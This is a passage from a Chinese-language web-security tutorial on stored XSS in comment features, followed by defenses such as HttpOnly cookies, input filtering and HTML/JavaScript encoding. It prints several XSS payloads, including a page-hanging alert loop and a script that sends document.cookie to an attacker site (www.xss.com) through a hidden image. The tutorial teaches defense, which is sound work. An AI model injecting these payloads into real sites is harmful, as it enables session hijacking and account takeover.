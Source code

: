 ### 存储型 xss 案例

在项目开发中，评论是个常见的功能，如果直接把评论的内容保存到数据库，那么显示的时候就可能被攻击。

*   如果你只是想试试 xss，可以这样：

          &lt;font size=<span class="hljs-string">"100"</span> color=<span class="hljs-string">"red"</span>&gt;试试水&lt;<span class="hljs-regexp">/font&gt;</span><span class="copy-code-btn">复制代码</span>`</pre>
    <figure>![](https://user-gold-cdn.xitu.io/2017/10/11/e873191c870578479e2b729d428d72b5?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)<figcaption></figcaption></figure>
*   如果带点恶意，可以这样：
    <pre>`  &lt;script&gt;
          <span class="hljs-keyword">while</span> (<span class="hljs-literal">true</span>) {
              alert(<span class="hljs-string">'Hello'</span>)
          }
      &lt;<span class="hljs-regexp">/script&gt;</span><span class="copy-code-btn">复制代码</span>`</pre>
      这时，网站就挂了。
*   当然，最常见 xss 攻击是读取 Cookie：
    <pre>`  &lt;script&gt;
          alert(<span class="hljs-built_in">document</span>.cookie)
      &lt;<span class="hljs-regexp">/script&gt;</span><span class="copy-code-btn">复制代码</span>`</pre>
    <figure>![](https://user-gold-cdn.xitu.io/2017/10/11/aa56d21af683d668e82458e05d731c30?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)<figcaption></figcaption></figure>
      Cookie 发送给攻击者的站点：
    <pre>`  <span class="hljs-keyword">var</span> img = <span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">'img'</span>)
      img.src=<span class="hljs-string">'http://www.xss.com?cookie='</span> + <span class="hljs-built_in">document</span>.cookie
      img.style.display=<span class="hljs-string">'none'</span>
      <span class="hljs-built_in">document</span>.getElementsByTagName(<span class="hljs-string">'body'</span>)[<span class="hljs-number">0</span>].appendChild(img)<span class="copy-code-btn">复制代码</span>`</pre>
      当前用户的登录凭证存储于服务器的 session 中，而在浏览器中是以 cookie 的形式存储的。如果攻击者能获取到用户登录凭证的 Cookie，甚至可以绕开登录流程，直接设置这个 Cookie 值，来访问用户的账号。

    ### 防御

    按理说，只要有输入数据的地方，就可能存在 XSS 危险。

*   httpOnly: 在 cookie 中设置 HttpOnly 属性后，js脚本将无法读取到 cookie 信息。
    <pre>`  <span class="hljs-comment">// koa</span>
      ctx.cookies.set(name, value, {
          <span class="hljs-attr">httpOnly</span>: <span class="hljs-literal">true</span> <span class="hljs-comment">// 默认为 true</span>
      })
      <span class="hljs-string">`</span><span class="copy-code-btn">复制代码</span>`</pre>
*   过滤

        *   输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。
      不仅仅是前端负责，后端也要做相同的过滤检查。
      因为攻击者完全可以绕过正常的输入流程，直接利用相关接口向服务器发送设置。
    *   HtmlEncode
    某些情况下，不能对用户数据进行严格过滤，需要对标签进行转换
    <figure>![](https://user-gold-cdn.xitu.io/2017/10/11/4d4d037c9605e38189a4f55b017556f1?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)<figcaption></figcaption></figure>
    当用户输入`&lt;script&gt;window.location.href=”http://www.baidu.com”;&lt;/script&gt;`, 最终保存结果为 `&amp;lt;script&amp;gt;window.location.href=&amp;quot;http://www.baidu.com&amp;quot;&amp;lt;/script&amp;gt;`, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。
    *   JavaScriptEncode
    对下列字符加上反斜杠
    <figure>![](https://user-gold-cdn.xitu.io/2017/10/11/051856aa46f5508f0b2737a36c113928?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)<figcaption></figcaption></figure>
    关于更多 HtmlEncode 和 JavaScriptEncode，请参考 [www.cnblogs.com/lovesong/p/…](https://link.juejin.im?target=http%3A%2F%2Fwww.cnblogs.com%2Flovesong%2Fp%2F5211667.html)
